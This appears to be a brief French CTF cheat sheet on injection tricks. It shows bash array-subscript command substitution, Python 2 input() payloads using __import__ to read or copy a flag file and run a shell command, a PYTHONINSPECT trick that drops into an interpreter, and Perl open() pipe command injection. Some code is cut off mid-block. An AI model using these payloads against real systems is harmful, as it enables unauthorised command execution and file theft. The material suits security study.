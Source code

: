 ##[Bash Broken input](#Bash-Broken-input)


#<a name="Bash-Broken-input"></a>
Dans un script bash, on peut évaluer des choses même si ces choses là sont dans des ' .

Basiquement, lorsqu'on met une variable comme FOO=42 et qu'on l'invoque avec '$FOO', la réponse sera : $FOO et non pas 42.

Par contre, bash évalue et expanse ce quil y a à l'intérieur de tableau.

Donc par exemple, si on fait FOO="x[$(echo toto)]" et qu'on fait '$FOO' on aura : toto.

Avec python 2.7.17 on peut acceder a n'importe quelle fonction dans le script, ou bien importer une fonction via __import__:

__import__('sys').stdout.write(open("flag.txt", 'r').read())
__import__('os').system('cat flag.txt> /tmp/flag.txt')

=> GOTO flag.txt

Ou bien :

#!/usr/bin/python2

import sys

def ultrasecret():
    open("supersecret", 'r').read()
    sys.exit(1)

try:
    p = input("Please enter password : ")
    

Please enter password : ultrasecret()

PYTHONINSPECT=YesMyLord ./xx
Please enter password : blabla !
Traceback (most recent call last):
<SNIP>
>>> f = open("flag")
>>> print f.readlines()
['...']


Perl command Injection :

The open() function can be used to pass a command :
# ex : “| cat flag.txt |”
